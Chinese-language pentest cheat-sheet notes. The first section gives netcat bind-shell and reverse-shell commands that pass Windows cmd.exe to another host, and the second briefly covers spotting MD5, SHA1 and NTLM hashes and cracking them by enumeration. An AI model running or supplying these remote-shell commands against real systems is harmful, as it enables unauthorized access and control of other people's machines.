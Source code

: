 

## 3.nc反弹shell

```
方法1、REMOTE主机绑定SHELL
在公网监听
nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe
或者
nc -l -p 5555 -t -e cmd.exe
在内网主动建立连接
nc -nvv 192.168.153.138 5555
-t是通过telne模式执行 cmd.exe 程序，可以省略。
讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口
方法2、REMOTE主机绑定SHELL并反向连接
在公网监听
nc -lp 5555
在内网机器反弹
nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354
或者
nc -t -e cmd 192.168.153.140 5555
讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口

```

# 2.加解密

```md5
md5
 16位和32位 0-9 和a-f 组成的字符串
 
 
 解密：
 1.知道算法
 2.碰撞枚举生成密文
 
 
 
 有特殊情况。md5会加salt一个字符串。

	discuz
```

```sha1
SHA1
和md5特征差不多，只是位数是40
```

```NTLM
NTLM
WINDOWS系统哈希密码，标准通讯安全协议
win7之后使用的密码
之前是LM
```
